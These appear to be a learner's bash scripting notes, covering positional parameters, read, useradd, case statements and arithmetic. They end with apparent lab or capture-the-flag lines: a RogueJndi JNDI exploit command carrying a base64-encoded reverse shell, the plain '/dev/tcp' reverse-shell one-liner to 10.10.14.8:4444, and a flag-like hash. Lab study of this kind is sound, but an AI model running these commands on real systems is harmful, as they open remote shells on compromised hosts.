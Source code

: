 pass command, cmd substitution = `$(cmd)`
variable = `${variable}`
parameter - variable being used inside the shell script
arguement - data passed into the shel lscritp
	arguement used in command line becoems the value stored in a parameter
`${0}` - first positional parameter - what is typed in the cmd line to execute the script - returns output of the command
`${1}` - value fo the first arguement passed to the script on the cmd
expression = `[[ expression ]]
`${?}` exit status variable
read input `read ` `-p` -passes the input onto value 
	ex. `read -p 'Entire input: ' variable_name`
useradd `-c` -comment for user `-m`(make home directory) `"username"`
shuf - shuffles entire lines
fold - wrap each input line to match space 
which - finds which path x command will execute from
	`which head` - finds location of head cmd
hash - `hash` - changes shell remembered locations
basename - strips out directory and suffix from filenames - aka display only filename - doesnt do smart checking
dirname - strips last component from file name - aka display only directory  - doesnt do smart checking
!`letter` - goes back to last command that started with X letter
`${@}` - puts each input as seperate words
`${*}` - puts each input as one word
`${#}` - represents the number of arguments
`sleep -s m h d` - delays command for -seconds -minutes -hours -days
`shift` - each time the cmd runs, ${#} goes down one
`readonly [variable]=[variable assignment]` - read only variable 
`getopts` - used matching pattern to get options from input
	`getopts input options OPTION`
	`while GET`
`bash pgrep -x` - check processes
`
### Case
case `[input]` in
`value`) `command` ;;
;; - block ender
esac - case finish

When trying to do math in bash format is `$(( NUM + NUM ))`
num can be variables as well but dont need ${} 


________________________________________________________________________
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuOC80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" --hostname "10.10.14.8"

echo 'bash -c bash -i >&/dev/tcp/10.10.14.8/4444 0>&1' |
base64

6ced1a6a89e666c0620cdb10262ba127

